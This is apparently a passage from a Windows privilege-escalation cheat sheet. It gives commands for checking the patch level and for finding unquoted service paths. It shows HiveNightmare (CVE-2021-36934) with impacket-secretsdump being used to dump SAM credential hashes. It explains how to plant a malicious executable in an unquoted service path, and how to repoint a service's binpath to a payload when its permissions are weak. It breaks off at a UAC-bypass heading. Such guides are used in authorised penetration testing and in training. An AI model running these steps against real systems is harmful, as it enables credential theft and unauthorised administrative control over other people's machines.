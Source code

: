 Exploit vulnerabilities in the operating system, kernel, or installed services.

### Kernel Exploits

Outdated systems may be vulnerable to known kernel exploits. Always check the patch level first.

```shell
# Manually check system info against vulnerability databases
systeminfo
wmic qfe list brief

# Use an automated checker like Sherlock or WinPEAS
Import-Module .\Sherlock.ps1
Find-AllVulns

# Example: HiveNightmare (CVE-2021-36934) - Allows reading SAM file
.\HiveNightmare.exe
impacket-secretsdump -sam SAM-backup -system SYSTEM-backup LOCAL
```

### Service Misconfigurations

#### Unquoted Service Path

If a service path is unquoted and contains spaces, you can place a malicious executable in a higher-level directory to be executed instead.

```shell
# Find services with unquoted paths that are not in C:\Windows
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

# Example: Path is C:\Program Files\Some App\service.exe
# Place your malicious exe at C:\Program.exe
# Restart the service to trigger it
```

#### Weak Service Permissions

If your user has permissions to modify a service's configuration, you can change its binary path.

```shell
# Check permissions on a service
accesschk.exe /accepteula -quvcw <ServiceName>

# If you have permission, reconfigure and start the service
sc config <ServiceName> binpath="C:\path\to\your\payload.exe"
sc start <ServiceName>
```

### User Account Control (UAC) Bypass

On systems with UAC enabled, an administrator user runs with standard privileges until an action requires elevation. Bypassing UAC achieves a high-integrity shell without a prompt.
